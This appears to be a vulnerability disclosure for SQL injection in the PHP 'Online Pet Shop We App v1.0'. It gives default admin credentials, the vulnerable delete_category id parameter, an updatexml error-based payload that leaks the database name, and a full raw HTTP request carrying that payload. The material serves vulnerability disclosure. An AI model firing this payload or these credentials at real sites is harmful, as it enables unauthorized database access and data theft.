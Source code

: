 # Online Pet Shop We App v1.0 by oretnom23 has SQL injection

BUG_Author: Lime

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /pet_shop/classes/Master.php?f=delete_category,id

Vulnerability location: /pet_shop/classes/Master.php?f=delete_category,id

dbname=pet_shop_db,length=11

[+] Payload: id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /pet_shop/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=k8u390ikl968phg971gmpmhtj5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/185293331-7cbf894e-f604-4e76-9628-1cbaef610463.png)

